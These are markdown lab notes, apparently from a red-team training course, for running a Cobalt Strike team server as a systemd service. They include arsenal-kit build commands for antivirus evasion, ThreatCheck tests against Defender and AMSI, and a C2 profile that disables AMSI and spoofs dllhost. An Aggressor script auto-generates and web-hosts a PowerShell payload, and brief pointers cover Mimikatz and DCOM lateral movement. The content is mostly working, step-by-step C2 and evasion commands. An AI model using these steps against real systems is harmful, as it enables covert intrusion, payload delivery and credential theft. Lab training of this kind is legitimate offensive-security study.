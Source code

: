 ```
sudo vim /etc/systemd/system/teamserver.service
```

```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
#ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'

[Install]
WantedBy=multi-user.target
```

```
sudo systemctl daemon-reload;sudo systemctl enable teamserver.service;sudo systemctl start teamserver.service;sudo systemctl status teamserver.service
```

# Create Listeners
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/37750093-listener-management)



# AV Evasion

WSL
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
```

```shell
./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

```shell
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
```

```bash
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

Open script manager in CS and load

/mnt/c/Tools/cobaltstrike/artifacts/pipe/artifact.cna

/mnt/c/Tools/cobaltstrike/resources/resources.cna

Generate All Payloads and test with

```Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
```

``` Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI
```

WSL

```
vim c2-profiles/normal/webbug.profile
```

```
post-ex {
        set amsi_disable "true";
	    set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

```
./c2lint c2-profiles/normal/webbug.profile
```

```
sudo systemctl restart teamserver.service;sudo systemctl status teamserver.service
```



mimi
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/41815529-mimikatz-kit)

Create Dcom jumper
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/39198081-jump-remote-exec)


```
vim host_payloads.cna
```

```
# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}
```

Uncomment

```
sudo vim /etc/systemd/system/teamserver.service
```
